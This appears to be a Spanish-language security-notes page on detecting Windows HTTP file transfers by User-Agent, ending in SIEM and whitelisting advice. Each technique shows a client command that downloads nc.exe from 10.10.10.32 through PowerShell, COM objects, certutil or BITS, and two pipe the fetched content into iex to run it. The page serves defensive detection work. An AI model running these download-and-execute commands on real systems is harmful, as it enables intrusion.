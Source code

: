 ## Detection & Evading Detection

Detección de transferencias (por User-Agent / encabezados)

> Lista breve de user-agents observados en técnicas de transferencia HTTP en Windows (útil para crear whitelist/anomalías).

**Invoke-WebRequest / Invoke-RestMethod (PowerShell) — Cliente**
```
#Ejemplo descarga
Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"

#Encabezado observado en el servidor
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
```

**WinHttp.WinHttpRequest.5.1 (COM) — Cliente**
```
$h = New-Object -ComObject WinHttp.WinHttpRequest.5.1
$h.open('GET','http://10.10.10.32/nc.exe',$false); $h.send(); iex $h.ResponseText

#Encabezado observado
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
```

**Msxml2.XMLHTTP (COM) — Cliente**
```
$h = New-Object -ComObject Msxml2.XMLHTTP
$h.open('GET','http://10.10.10.32/nc.exe',$false); $h.send(); iex $h.responseText

#Encabezado observado
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
```

**Certutil — Cliente**
```
certutil -urlcache -split -f http://10.10.10.32/nc.exe
#Encabezado observado
User-Agent: Microsoft-CryptoAPI/10.0
```

**BITS — Cliente**
```
Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
#Encabezado observado (HEAD)
User-Agent: Microsoft BITS/7.8
```

> Recomendaciones de detección
> - Construir whitelist de user-agents legítimos (navegadores corporativos, actualizadores) y filtrar/alertar en anomalías.
> - Crear reglas de correlación en SIEM: procesos que hacen requests HTTP con user-agent inusual.
> - Complementar con control de comandos (whitelist de comandos) en endpoints y monitorear ejecuciones de binarios no habituales.
________________________________________________________

